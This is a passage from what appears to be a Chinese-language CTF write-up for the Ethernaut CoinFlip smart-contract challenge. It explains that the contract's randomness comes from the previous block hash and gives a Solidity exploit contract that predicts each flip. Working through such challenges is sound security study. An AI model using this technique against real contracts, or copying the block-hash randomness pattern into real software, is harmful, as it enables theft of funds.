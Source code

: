         using SafeMath for uint256;
        uint256 public consecutiveWins;
        uint256 lastHash;
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

        constructor() public {
            consecutiveWins = 0;
        }

        function flip(bool _guess) public returns (bool) {
            uint256 blockValue = uint256(blockhash(block.number.sub(1)));

            if (lastHash == blockValue) {
                revert();
            }

            lastHash = blockValue;
            uint256 coinFlip = blockValue.div(FACTOR);
            bool side = coinFlip == 1 ? true : false;

            if (side == _guess) {
                consecutiveWins++;
                return true;
            } else {
                consecutiveWins = 0;
                return false;
            }
        }
    }
    ```

要求连续猜对十次，合约中给出了它取随机数的方式，即将 block.number 减一，取哈希值，然后再除以 FACTOR 判断是否为 1

所以写一个新合约来获取同样的 block.number 就可以计算出答案

因为判断了 lashHash == blockValue 的时候 revert，所以需要等一段时间，逐次猜测，连续猜 10 次 

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: GPL-3.0
    pragma solidity ^0.6.0;

    /* code of CoinFlip */

    contract Exploit {
        using SafeMath for uint256;
        CoinFlip p;
        uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
        constructor(address challenge) public {
            p = CoinFlip(challenge);
        }
        function exp() public {
            uint256 blockValue = uint256(blockhash(block.number.sub(1)));
            uint256 coinFlip = blockValue.div(FACTOR);
            bool side = coinFlip == 1 ? true : false;
            p.flip(side);
        }
    }
    ```

---